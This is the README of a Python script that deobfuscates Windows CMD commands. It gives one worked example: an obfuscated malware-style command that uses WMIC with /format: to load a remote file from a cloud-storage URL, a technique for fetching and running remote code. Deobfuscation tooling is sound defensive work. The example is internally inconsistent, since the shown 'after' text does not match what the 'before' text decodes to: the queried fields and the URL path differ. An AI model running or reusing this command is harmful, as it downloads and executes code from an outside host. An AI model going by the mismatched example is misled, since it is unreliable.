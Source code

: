 # scripts
python scripts

## 1. cmd命令去混淆脚本

[原理文章](https://ddvvmmzz.github.io/Windows-CMD%E5%91%BD%E4%BB%A4%E5%8E%BB%E6%B7%B7%E6%B7%86)

使用方式如下，`xxx.txt`文件中，每行一条混淆命令，执行完成之后，在当前目录下生成`xxx.txt.clear`文件，保存去混淆之后的命令。

`python deDosfuscation.py xxx.txt`

例如，去混淆前：

`/V /C "set x=C77476dS66:\\77476dS66W77476dS66i77476dS66nd77476dS66ow77476dS66s\\s77476dS66ys77476dS66te77476dS66m377476dS66277476dS66\\77476dS66w77476dS66b77476dS66e77476dS66m\\W77476dS66M77476dS66I77476dS66C.e77476dS66x77476dS66e o77476dS66s g77476dS66e77476dS66t EF77476dS66Hn77476dS66xv77476dS66vhe77476dS66, las77476dS66t77476dS66b77476dS66o77476dS66o77476dS66t77476dS66u77476dS66pd77476dS66at77476dS66e /77476dS66fo77476dS66rm77476dS66at:"h77476dS66t77476dS66t77476dS66p77476dS66s77476dS66:77476dS66/77476dS66/st77476dS66or77476dS66ag77476dS66e.g77476dS66oog77476dS66l77476dS66e77476dS66a77476dS66p77476dS66i77476dS66s77476dS66.c77476dS66om77476dS66/a77476dS66wsd77476dS66x/077476dS66977476dS66/77476dS66v.77476dS66tx77476dS66t#77476dS660277476dS6650277476dS666k077476dS66W77476dS66I77476dS66J77476dS66b77476dS66z77476dS66477476dS66r" &&echo %x:77476dS66=%|%ComSpec%"`

去混淆后：

`/V /C "echo C:\\Windows\\system32\\wbem\\WMIC.exe os get t98dIFHrm, et8dWYH, numberofprocesses /format:https://storage.googleapis.com/ultramaker/08/v.txt#025015ed58iq24h|%ComSpec%"`
